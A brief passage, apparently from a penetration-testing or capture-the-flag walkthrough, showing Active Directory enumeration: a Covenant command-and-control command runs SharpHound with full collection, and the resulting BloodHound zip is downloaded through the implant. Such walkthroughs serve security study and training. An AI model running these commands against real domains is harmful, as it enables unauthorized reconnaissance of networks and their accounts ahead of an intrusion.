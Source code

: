 We simply enumerate with bloodhound. From covenant use the following command to run Sharphound:

```
 > Assembly /assemblyname:"SharpHound3" /parameters:"-c All GPOLocalGroup"
 ```
 
 Now Download the zip file to load in bloodhound:
 
 ```
 > Download 20200311204104\_BloodHound.zip
 ```
 